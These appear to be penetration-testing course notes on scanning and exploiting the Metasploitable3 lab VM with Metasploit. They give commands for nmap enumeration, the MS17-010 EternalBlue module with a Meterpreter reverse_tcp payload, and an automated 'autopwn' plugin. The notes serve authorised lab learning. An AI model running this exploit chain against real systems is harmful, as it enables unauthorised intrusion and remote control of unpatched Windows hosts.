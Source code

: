 # Vulnerability Scanning with MSF

## Vulnerability Scanning

- Vulnerability Scanning & detection is the process of scanning a target for vulnerabilites and verifying whether they can be exploited
- So far, we have been able to identify and exploit misconigurations on target systems, however, in this section we will be exploring the process of utilizing auxiliary and exploit modules to scan and identify inherent vulnerabilities in services, operating systems and web apps.
- We also be exploring the process of utilizing third party vulnerability scanning tools like Nessus and how we can integrate Nessus functionality in to the MSF.

## Lab Environment 

- For the purposes of demonstrating the vulnerability scanning process, we will be utilizing an intentionally vulnerable virtual machine called Metasploitable3 that is based on Windows Server 2008.
- Metasploitable3 was developed by Rapid7 to demonstrate how MSF can be used to perform exploitation of a Windows System.
- Instructions on how this VM can be setup can be found here: https://bit.ly/3kASwns

## Demo: Vulnerability Scanning with MSF

`sudo nmap -sn [IP/24]`

`ip a s` to get the target IP

`service postgresql start && msfconsole`

msf6:`setg rhosts [targetIP]`

msf6:`setg rhost [targetIP]`

msf6:`workspace -a MS3`

We enumerate the service version with following command which imports the results automatically into the msf database:

msf6:`db_nmap -sS -sV -O [targetIP]`

The information got stored:

msf6:`hosts`

msf6:`services`

How do we utilize this service information to find and identify vulnerabilites?

- We could search for exploits like f.e. `search type:exploit name:Microsoft IIS`, dead end if the msf exploit module don't match the service version running on the target

If we are not sure if a exploit version works for the service version running on the system, we can use the module and type in `info`

msf6:`set payload windows/meterpreter/reverse_tcp`

msf6:`show options`

We need to enumerate the service so we can fill in the variables correctly (port etc.)

msf6:`services`

We take a step back into msf.

msf6:`services`

If we want to search for a msf module, we can use the `search` command or we can use the inbuilt kali linux searchsploit utility:

msf6:`searchsploit "Microsoft Windows SMB | grep -e "Metasploit"`

msf6:`search eternalblue`

First we use the auxiliary module to check if the target is vulnerable:

msf6:`use auxiliary/scanner/smb/smb_ms17_010`

msf6:`show options`

msf6:`run`

msf6:`use exploit/windows/smb/ms17_010_eternalblue`

msf6:`show options`: check if correctly configured

msf6:`run`

We get a meterpreter session.

### Metasploit AutoPWN

https://github.com/hahwul/metasploit-autopwn

The `metasploit-autopwn` repository provides a script that replicates the classic "Autopwn" feature in Metasploit, automating the process of scanning for vulnerabilities, selecting appropriate exploits, and executing them against a target system. It handles exploit management, payload selection, and session handling automatically, simplifying penetration testing tasks. This tool is useful for quickly identifying and exploiting vulnerabilities, but should only be used ethically and with proper authorization.

download repo and move it into /usr/share/metasploit-framework/plugins

msf6:`load db_autopwn`

msf6:`db_autopwn`

msf6:`db_autopwn -p -t`

Specify port range:

msf6:`db_autopwn -p -t -PI 445`

The next step would be enumerate more infos and finding the appropriate exploit to use.

### Analyze command:

Analyzes the contents of the msf databases (hosts and services), and create a list of vulnerabilites the services suffer from.

msf6:`analyze`

msf6:`vulns`















